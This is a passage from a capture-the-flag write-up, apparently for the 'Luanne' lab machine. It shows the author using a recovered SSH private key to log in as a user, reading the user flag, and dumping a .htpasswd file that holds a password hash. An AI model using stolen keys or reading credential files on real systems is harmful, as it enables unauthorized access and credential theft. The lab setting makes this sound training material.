 ```
└─$ nano user_key

└─$ chmod 600 user_key  

└─$ ssh -i ~/Downloads/luanne/user_key r.michaels@10.10.10.218
Last login: Fri Sep 18 07:06:51 2020
NetBSD 9.0 (GENERIC) #0: Fri Feb 14 00:06:28 UTC 2020

Welcome to NetBSD!

luanne$ id
uid=1000(r.michaels) gid=100(users) groups=100(users)
luanne$ pwd
/home/r.michaels
luanne$ ls 
backups     devel       public_html user.txt
luanne$ cat user.txt
ea5f0ce6a917b0be1eabc7f9218febc0
luanne$ 
```

We can now see why only the id\_rsa file was visible after authenticating to the web service running on port 3001:&#x20;

```
luanne$ ls -la
total 52
dr-xr-x---  7 r.michaels  users   512 Sep 16  2020 .
drwxr-xr-x  3 root        wheel   512 Sep 14  2020 ..
-rw-r--r--  1 r.michaels  users  1772 Feb 14  2020 .cshrc
drwx------  2 r.michaels  users   512 Sep 14  2020 .gnupg
-rw-r--r--  1 r.michaels  users   431 Feb 14  2020 .login
-rw-r--r--  1 r.michaels  users   265 Feb 14  2020 .logout
-rw-r--r--  1 r.michaels  users  1498 Feb 14  2020 .profile
-rw-r--r--  1 r.michaels  users   166 Feb 14  2020 .shrc
dr-x------  2 r.michaels  users   512 Sep 16  2020 .ssh
dr-xr-xr-x  2 r.michaels  users   512 Nov 24  2020 backups
dr-xr-x---  4 r.michaels  users   512 Sep 16  2020 devel
dr-x------  2 r.michaels  users   512 Sep 16  2020 public_html
-r--------  1 r.michaels  users    33 Sep 16  2020 user.txt
luanne$ ls -la public_html/                                                                                      
total 20
dr-x------  2 r.michaels  users   512 Sep 16  2020 .
dr-xr-x---  7 r.michaels  users   512 Sep 16  2020 ..
-r--r--r--  1 root        users    47 Sep 16  2020 .htpasswd
-r--------  1 r.michaels  users  2610 Sep 16  2020 id_rsa
luanne$ cat public_html/.htpasswd                                                                                
webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
luanne$ 
```
